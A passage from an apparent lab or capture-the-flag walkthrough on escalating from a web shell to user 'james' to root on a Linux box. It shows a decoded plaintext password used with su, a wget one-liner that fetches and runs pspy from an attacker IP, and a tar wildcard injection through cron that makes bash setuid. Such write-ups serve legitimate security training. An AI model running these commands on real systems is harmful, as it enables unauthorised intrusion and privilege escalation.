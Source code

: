 - Decoded result : `james:S3cr37_P@$$W0rd`

```bash
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2024/06$ su - james
Password:S3cr37_P@$$W0rd
james@ubuntu-xenial:~$ id
uid=1002(james) gid=1002(james) groups=1002(james)
```

## From james to root


### Crons - Bash script : Abuse wildcard in Tar command arguments

Run **pspy** to spy command lines

```bash
<ress/assets/fonts/blog/wp-content/uploads/2024/06$ FILE=pspy64; wget -q 192.168.45.248/$FILE -O /tmp/$FILE && chmod +x /tmp/$FILE && /tmp/$FILE &
```

- A cron job is running `/usr/local/bin/backup.sh`

![](/assets/obsidian/9d4ce6d6cc1fe36d067979b33b751196.png)

- There's a wildcard in `tar`'s arguments

```bash
james@ubuntu-xenial:~$ ls -la /usr/local/bin/backup.sh
-rwx---r-- 1 root root 54 Jan 17  2021 /usr/local/bin/backup.sh
james@ubuntu-xenial:~$ cat /usr/local/bin/backup.sh;echo

#!/bin/sh
cd /home/james/
tar czf /tmp/backup.tar.gz *
```

> Reference - https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar

```bash
cd /home/james/
echo -e '#!/bin/bash\nchmod +s /bin/bash' > x
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh x'
```

![](/assets/obsidian/ff6cd94acfc3d46821e4ce3bf0e2cadf.png)
